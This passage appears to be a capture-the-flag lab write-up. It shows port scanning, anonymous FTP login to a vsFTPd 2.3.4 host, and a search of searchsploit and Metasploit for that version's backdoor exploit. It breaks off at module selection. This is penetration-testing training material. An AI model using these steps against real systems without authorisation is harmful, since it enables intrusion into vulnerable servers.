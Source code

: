 ```shell

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.43 seconds
```
Nmap report us the ports _21_(ftp),_22_(ssh), _139-445_(smb) and _3632_(distccd).

The firts the I noticed is anonymous login un ftp so I log in:
```shell
ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:belin): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> 
```

There is nothing here but the version seems old so lets search it in exploit db: 

```shell
searchsploit vsftp 2.3.4
-------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                            |  Path
-------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                 | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                    | unix/remote/17491.rb
-------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```



```shell
msf6 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > use 0
```
